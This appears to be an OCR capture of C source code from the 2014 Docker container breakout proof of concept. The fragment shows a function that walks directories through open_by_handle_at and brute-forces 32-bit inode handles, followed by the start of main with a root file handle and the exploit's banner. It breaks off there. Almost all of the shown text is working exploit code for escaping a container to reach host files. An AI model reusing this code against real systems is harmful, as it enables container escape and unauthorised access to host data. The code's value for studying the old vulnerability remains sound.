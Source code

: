 ```c
path = strchr(path, '/');
// recursion stops if path has been resolved
if (!path) {
memcpy(oh->f_handle, ih->f_handle, sizeof(oh->f_handle));
oh->handle_type = 1;
oh->handle_bytes = 8;
return 1;
}

++path;
fprintf(stderr, "[*] Resolving '%s'\n", path);
if ((fd = open_by_handle_at(bfd, (struct file_handle *)ih, O_RDONLY)) < 0)
die("[-] open_by_handle_at");
if ((dir = fdopendir(fd)) == NULL)
die("[-] fdopendir");
for (;;) {
de = readdir(dir);
if (!de)
break;
fprintf(stderr, "[*] Found %s\n", de->d_name);
if (strncmp(de->d_name, path, strlen(de->d_name)) == 0) {
fprintf(stderr, "[+] Match: %s ino=%d\n", de->d_name, (int)de->d_ino);
ino = de->d_ino;
break;
}
}

fprintf(stderr, "[*] Brute forcing remaining 32bit. This can take a while...\n");
if (de) {
for (uint32_t i = 0; i < 0xffffffff; ++i) {
outh.handle_bytes = 8;
outh.handle_type = 1;
memcpy(outh.f_handle, &ino, sizeof(ino));
memcpy(outh.f_handle + 4, &i, sizeof(i));
if ((i % (1<<20)) == 0)
fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de->d_name, i);
if (open_by_handle_at(bfd, (struct file_handle *)&outh, 0) > 0) {
closedir(dir);
close(fd);
dump_handle(&outh);
return find_handle(bfd, path, &outh, oh);
}
}
}
closedir(dir);
close(fd);
return 0;
}


int main(int argc,char* argv[] )
{
char buf[0x1000];
int fd1, fd2;
struct my_file_handle h;
struct my_file_handle root_h = {
.handle_bytes = 8,
.handle_type = 1,
.f_handle = {0x02, 0, 0, 0, 0, 0, 0, 0}
};

fprintf(stderr, "[***] docker VMM-container breakout Po(C) 2014 [***]\n"
"[***] The tea from the 90's kicks your sekurity again. [***]\n"
```